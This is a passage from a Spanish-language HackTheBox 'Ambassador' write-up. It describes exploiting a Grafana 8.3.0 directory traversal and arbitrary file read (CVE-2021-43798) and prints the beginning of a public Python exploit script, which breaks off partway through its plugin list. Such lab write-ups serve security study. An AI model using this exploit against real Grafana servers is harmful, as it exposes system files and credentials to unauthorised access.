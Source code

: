 ![](/assets/images/HTB/Ambassador-HackTheBox/searchsploit1.webp)

Hay una vulnerabilidad que podemos aprovechar, existe un Directory Traversal and Arbitrary File Read.

# Explotación [#](explotación) {#explotación}

***

## Grafana Directory Traversal [🔢](#Grafana-Directory-Traversal) {#Grafana-Directory-Traversal}

Básicamente a través de esta vulnerabilidad podemos leer archivos del sistema.

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798


#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
```